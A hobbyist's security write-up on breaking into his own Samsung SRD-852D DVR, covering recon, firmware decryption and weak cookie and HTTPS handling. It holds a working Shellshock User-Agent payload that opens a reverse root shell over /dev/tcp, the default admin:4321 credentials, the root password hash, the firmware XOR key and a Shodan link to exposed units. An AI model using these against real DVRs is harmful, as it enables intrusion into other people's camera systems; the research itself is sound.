 # Breaking Samsung DVR's Security

I found an old Samsung SRD-852D DVR powering some analog security cameras in my home. I got curious and decided to take a look at it. This is a write-up of my findings.

## Initial Recon

I started by plugging the device into a VLAN with no internet access. I then ran `nmap` to see what ports were open. I found that the device was running a few services:

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
554/tcp open  rtsp
555/tcp open  dsf
```

Accessing the web interface (running `lighttpd/1.4.26`) at `http://[ip]` showed a login page. I tried the default credentials (`admin:4321`) and they worked. I was greeted with an old, broken web interface. I couldn't see the video feed as it depended on Java applets.

I probed the SSH version and got: `SSH-1.99-OpenSSH_4.4`, but didn't have much luck with exploiting it. It offered `ssh-dss` and `ssh-rsa` as key exchange algorithms.

Nothing interesting was found on ports `111`, `554`, and `555`, other than the RTSP feed on port `554`.

## Reverse Root Shell with Shellshock

Looking further into the web interface, I saw various requests to `/cgi-bin/` endpoints. I set the `User-Agent` header to `() { :; }; /bin/bash -c "bash -i >& /dev/tcp/[my-ip]/6666 0>&1"` and sent a request to `/cgi-bin/webviewer`. Surprisingly, I got a reverse shell as `root` on my listener!

The webserver was running as `root`, so I got full access to the device. All services necessary for the DVR were in `/root`.

The device was on a 32-bit PowerPC architecture, running a basic Linux system on the `2.6.30.9` kernel with [RDB (reliable datagram sockets)](https://en.wikipedia.org/wiki/Reliable_Datagram_Sockets). The device had a `bash` shell.

Here is `/etc/shadow` (note the old `des_crypt` hash for root!):
```
root:En813l8gAi3R2:13649:0:99999:7:::
bin:*:13649:0:99999:7:::
daemon:*:13649:0:99999:7:::
sys:*:13649:0:99999:7:::
adm:*:13649:0:99999:7:::
lp:*:13649:0:99999:7:::
sync:*:13649:0:99999:7:::
shutdown:*:13649:0:99999:7:::
halt:*:13649:0:99999:7:::
mail:*:13649:0:99999:7:::
news:*:13649:0:99999:7:::
uucp:*:13649:0:99999:7:::
operator:*:13649:0:99999:7:::
games:*:13649:0:99999:7:::
ftp:*:13649:0:99999:7:::
man:*:13649:0:99999:7:::
www:*:13649:0:99999:7:::
sshd:*:13649:0:99999:7:::
proxy:*:13649:0:99999:7:::
telnetd:*:13649:0:99999:7:::
backup:*:13649:0:99999:7:::
postfix:*:13649:0:99999:7:::
ais:*:13649:0:99999:7:::
ntp:*:13649:0:99999:7:::
nobody:*:13649:0:99999:7:::
```

I fed the hash into `hashcat` but had no luck cracking it. With more time, I could have found a way to recover the password, although it wasn't necessary, as I could have just reset it by running `passwd`.

At this point, there was no need to go further. I had full access to the device and could do whatever I wanted with it.

## Decrypting Firmware Update Files

I found a firmware update file from the vendor's website. I have uploaded the file here ([srd852_1652_v1_36_140127.zip](./srd852_1652_v1_36_140127.zip)).

Unzipping the file, I found release notes and a `.img` file. Running `binwalk -e` on the `.img` file showed a gzip archive. Inside, the archive contained a few files:

- `shr-detroit_header.dat`
- `ve_mproject_add_header.dtb`
- `ve_uRamdisk_add_header`
- `ve_uImage_add_header`
- `ve_u-boot_add_header.img`
- `uptools/`
	- `swupgrader`
	- `sw_ver`
	- `upgrade_gui`
- `ve_logo_add_header.img`

Looking inside `uptools/`, I found two binaries, `swupgrader` and `upgrade_gui`.

`file` output for `swupgrader`:
```
swupgrader: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), dynamically linked, interpreter /lib/ld.so.1, for GNU/Linux 2.6.18, stripped
```

`file` output for `upgrade_gui`:
```
upgrade_gui: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), dynamically linked, interpreter /lib/ld.so.1, for GNU/Linux 2.6.18, with debug_info, not stripped
```

I did not find much that was interesting in these binaries. `upgrade_gui` did not have debug symbols stripped; its symbols (from `objdump -s upgrade_gui`) can be found in [upgrade_gui.objdump](./upgrade_gui.objdump).

All of these files except for the ones in `uptools/` were encrypted in a proprietary format, with the same bytes at the beginning of each file:
```
456e 6372 7970 7446 696c 6546 6f72 6d61 EncryptFileForma
740a [encrypted data]					t.
```

Looking through the encrypted files in a hex editor, I found that there were many repetitions of the same bytes, which is always a bad sign. At the end of some of the files, the following 16 bytes were repeated:
```
6212 2b0f 3a1a 5dd0 f5ac 261f df24 b99a  b.+.:.]...&..$..
```

I wrote a simple Perl script to XOR the encrypted files with this key to decrypt them. The script can be found in [decrypt.pl](./decrypt.pl). After a few tries, it worked! I was able to decrypt the files:
```bash
perl decrypt.pl --file ve_uRamdisk_add_header > ve_uRamdisk_add_header.decrypted
```

Considering that the firmware updates are unsigned, an attacker could easily modify the firmware to include a backdoor and flash it onto the device. The device would happily accept the modified firmware and run it.

I found a gzip archive containing an `ext2` filesystem in `ve_uRamdisk_add_header`. I extracted the filesystem and found a very similar filesystem to the one on the live device. I uploaded the filesystem here ([ramdisk.tar.gz](./ramdisk.tar.gz)).

I found `vmlinux` in `ve_uImage_add_header`. I did not spend much time looking into the other files.

## Other Findings

Ignoring the fact that the device was running everything as `root`, I found a few other things while briefly probing the device:

### Cookies

The web interface stored the session and credentials in an insecure, non-`HttpOnly` cookie:
```
ID=YWRtaW4=&PWD=NDMyMQ==&SessionID=0.46702777430694975
```

The `ID` and `PWD` fields were base64 encoded. I could easily decode them to get the credentials: `admin:4321`.

### Authentication

Considering the old age of the device, it was no surprise that the credentials were transmitted in plaintext over HTTP.

### HTTPS Support

HTTPS support was enabled in the latest firmware update I found, but **using the same exact self-signed certificate for all devices**!

### Hardcoded South Korean DNS Server

The device had a hardcoded DNS server `168.126.63.1` in `/etc/resolv.conf`, operated by Kornet, a South Korean ISP.

### Unnecessary Size of the Device

The interior of the device was tiny, and the rest of the space was taken up by the case, with a lot of empty space in between! The device was unnecessarily large.

![Interior of the device](./img/interior.png)
>Please excuse the dust :)

## Closing Thoughts

This was a fun learning experience.

The device was old and had many security issues. The vendor had stopped supporting it, but you'll find many of these devices [**publicly accessible on the internet**](https://www.shodan.io/search?query=Web+Viewer+for+Samsung+DVR) by searching for `Web Viewer for Samsung DVR` (the title of the web interface).

Many of these are available on the internet as the DVR provides a DDNS feature, allowing users to access their cameras from anywhere. This is a huge security risk.